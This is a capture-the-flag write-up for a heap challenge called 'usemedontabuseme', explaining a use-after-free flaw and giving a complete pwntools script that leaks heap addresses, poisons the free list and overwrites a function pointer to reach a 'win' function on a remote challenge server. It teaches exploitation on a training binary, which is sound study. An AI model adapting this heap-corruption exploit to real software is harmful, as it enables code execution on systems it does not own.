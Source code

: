 # usemedontabuseme

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNy11c2VtZWRvbnRhYnVzZW1lIiwiaXAiOiIyMDIuODcuMTYyLjI4Iiwic2Vzc2lvbiI6IjY1ZTg2OTA0LWY0OTgtNGJmOS05Y2UxLTg3MTIyNDU5NTgwMyJ9.9goGlKsse0NEwy8CH4Hx3pfdU0TDW9I831GzNf0z6To}

## Scenario

Functions are given that allow us to create, rename and delete a certain of each allocated memory structure. We need to leverage the fact that chunk metadata and content are stored in the same location.

## Solution

We are able to view the name of a killed clone. Due to the way free chunks are stored, the pointer of the next free chunk is stored in the same location as the name. This allows us to override the location of the second-next chunk location.  

By allocating a chunk (A), then allocating a chunk (B) that starts `0xc` bytes after (A), we can modify the function pointer. By using the Give Hint functionality, the modified function pointer will be executed

## Script

```python3
#!/usr/bin/python3

'''
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
'''

'''
Data Structure

8 bytes - name
4 bytes - should be 0x6447
4 bytes - function ptr  <-- override to win
'''

# Clones --> []

from pwn import *

addr = {
    'win': 0x8048b98
}

# p = process("./usemedontabuseme")
p = remote("plsdonthaq.me", 7000)

p.recvuntil("Choice: ")

def make(id, string8):
    p.sendline("A")
    p.sendline(str(id))
    p.sendline(string8)
    p.recvuntil("Choice: ")

def kill(id):
    p.sendline("B")
    p.sendline(str(id))
    p.recvuntil("Choice: ")

def name(id, string7):
    p.sendline("C")
    p.sendline(str(id))
    p.sendline(string7)
    p.recvuntil("Choice: ")

def view(id):
    p.sendline("D")
    p.sendline(str(id))
    p.recvuntil("Name: ")
    ret = p.recvline(keepends=False)
    p.recvuntil("Choice: ")
    return ret

def hint(id):
    p.sendline("H")
    p.sendline(str(id))
    p.recvuntil("Choice: ")

def pwnHint(id):
    p.sendline("H")
    p.sendline(str(9))

# Create 3 allocations
make(0, '0000')
make(1, '1111')
make(2, '2222')

# Free the 3 allocations
### Result will be [2]->[1]->[0]
kill(0)
kill(1)
kill(2)

# Leak the addresses of [0] and [1]
addr0 = u32(view(1)[:4])
addr1 = u32(view(2)[:4])

# PWN                                                               # NEW HEAD:[2]->[1]->[0]
make(2, '')                 # Dummy [2]                             # NEW HEAD:[1]->[0]
name(0, p32(addr1 + 0xc))   # [1]->[0]->[1 + 0xc]                   # NEW HEAD:[1]->[0]->[1+0xc]
make(9, 'aaaa')             # Create clone 9 using Chunk [1]        # NEW HEAD:[0]->[1+0xc]
make(0, '')                 # Create clone 0 using Chunk [0]        # NEW HEAD:[1+0xc]
make(1, p32(addr['win']))   # Create clone 1 using Chunk [1 + 0xc]  # NEW HEAD:NULL

'''
# Chunk [1] now contains
aaaa   ...  ...... 
0x6447 ...  win fn
'''
pwnHint(9)

p.interactive()
```

